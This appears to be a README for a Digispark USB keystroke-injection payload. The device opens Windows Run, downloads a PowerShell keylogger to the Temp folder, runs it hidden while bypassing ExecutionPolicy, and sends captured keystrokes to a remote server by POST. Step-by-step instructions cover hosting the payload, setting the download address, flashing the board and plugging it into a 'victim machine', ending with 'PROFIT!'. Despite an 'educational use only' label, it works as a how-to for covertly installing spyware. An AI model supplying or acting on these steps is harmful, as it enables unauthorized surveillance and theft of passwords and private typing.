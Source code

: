 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Keylogger
For more details, see our [documentations](/documentation/conops_keylogger.md).

Opens up Run in Windows.   
Using keystroke injections:   
- Downloads the keylogger script, from user defined location, to `$env:Temp\`.   
- Executes the script, bypassing the ExecutionPolicy, in the backgroud.
- Script logs the keypresses to a file and after some time, specified in the script, it sends the content of the file to server as POST request

Check out more detailed usage of the [Keylogger in our project.](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/keylogger)    
**NOTE:**   
Currently we are using the [one with the POST request](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)


## How to use: 

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Grab the [keylogger script](https://github.com/therealhalonen/PhishSticks/blob/master/payloads/keylogger/keylog_ps/helper_post.ps1)3
- Edit the script, [with instructions](https://github.com/therealhalonen/PhishSticks/tree/master/payloads/keylogger/keylog_ps#how-to-use-1)
- Host/serve the script from your preferred location
	- For example straight from attack device with simple python `python3 -m http.server PORT`
	- OR using our [simple Flask app](https://github.com/therealhalonen/PhishSticks/tree/master/scripts/webhook), that is designed to be used in our testings, with the keylogger.
- Define:
	-  `DownloadFile('FULL_ADDRESS_WITH_FILENAME'`, the one you are serving the payload from.    
	- Path, where to download and what to execute (both must be the same):
		- `$env:Temp\\FILE_NAME_OF_YOUR_CHOICE.ps1`   
- Upload to Digispark
- Plug in to victim machine
- **PROFIT!**